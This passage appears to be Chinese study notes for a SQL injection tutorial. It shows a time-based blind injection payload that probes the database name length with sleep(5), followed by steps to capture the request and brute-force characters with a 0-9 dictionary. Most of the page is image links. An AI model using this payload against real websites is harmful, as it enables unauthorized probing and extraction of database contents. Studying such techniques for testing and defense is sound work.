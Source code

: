 *******获取数据库长度**

**?id=1' and if(length(database())=1,sleep(5),1)--+**

**抓包**

**添加变量**

![img](72、sql注入/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzI1MjIwNA==,size_16,color_FFFFFF,t_70-20201112153611191.png)

 

**字典** **0-9**

![img](https://img-blog.csdnimg.cn/20200501173637819.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzI1MjIwNA==,size_16,color_FFFFFF,t_70)

 

*******获取数据库名**

 

**抓包**

**![img](72、sql注入/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzI1MjIwNA==,size_16,color_FFFFFF,t_70-20201112153611245.png)**
